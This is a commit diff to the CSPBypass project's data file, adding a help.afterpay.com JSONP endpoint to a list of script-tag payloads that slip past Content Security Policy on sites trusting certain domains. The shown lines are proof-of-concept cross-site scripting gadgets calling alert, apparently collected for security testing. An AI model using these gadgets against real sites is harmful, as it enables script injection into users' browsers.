

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
help.afterpay.com

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -71,2 +71,3 @@ gstatic.com	<script src='https://gstatic.com/recaptcha/about/js/main.min.js'></s
 gum.criteo.com	<script src="https://gum.criteo.com/sync?c=123&r=2&a=1&j=alert"></script>
+help.afterpay.com	<script src="https://help.afterpay.com/sc/faye/?message=[{%22channel%22:%22%22}]&jsonp=alert"></script>
 ib.adnxs.com	<script src="https://ib.adnxs.com/async_usersync?cbfn=alert(1)-"></script>
```
